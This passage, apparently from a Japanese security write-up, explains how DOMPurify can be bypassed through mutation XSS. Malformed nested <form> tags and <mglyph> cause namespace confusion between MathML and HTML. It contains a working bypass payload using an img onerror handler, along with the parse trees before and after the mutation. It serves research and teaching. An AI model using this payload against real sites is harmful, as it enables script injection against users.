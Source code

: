 (一個目の `<mglyph>` は MathML 、二個目は HTML としてパースされている。)


## DOMPurify Bypass

上記の二つを組み合わせて以下のような HTML を考える。


```html
<form>
<math><mtext>
</form><form>
<mglyph>
<style></math><img src onerror=alert(1)>
```

壊れたネストの `<form>` と、 `<mglyph>` がある。パースした結果は以下だ。


```html
<form><!-- as HTML -->
  <math><!-- as MathML -->
    <mtext><!-- as HTML -->
      <form>
        <mglyph><!-- as HTML -->
          <style><!-- as HTML -->
            "</math><img src onerror=alert(1)>" <!-- text -->
          </style>
        </mglyph>
      </form>
    </mtext>
  </math>
</form>
```

この HTML において、 XSS ベクタを模した `alert(1)` はあくまでも HTML としてパースされた `<style>` 下のテキストだ。したがって、 DOMPurify のロジックでは、この XSS ベクタを省くことはできず、このままの HTML を返す。

しかし、これを `innerHTML` で DOM に展開すると、今度は整形された HTML をパースすることによって、壊れてないネストした `<form>` が見つかり、それがブラウザによって省かれる。すると、以下のように展開される。


```html
<form><!-- as HTML -->
  <math><!-- as MathML -->
    <mtext><!-- as HTML -->
      <mglyph><!-- as MathML -->
        <style><!-- as MathML -->
        </style>
      </mglyph>
    </mtext>
  </math>
  <img src onerror=alert(1)>
</form>
```

`<form>` が消えたことで、 `<mglyph>` が `<mtext>` の直下に現れ、ここでは MathML のままコンテキストが切り替わらなくなる。すると、 `<style>` も MathML としてパースされ、その子要素はテキストではなく要素としてパースされる。
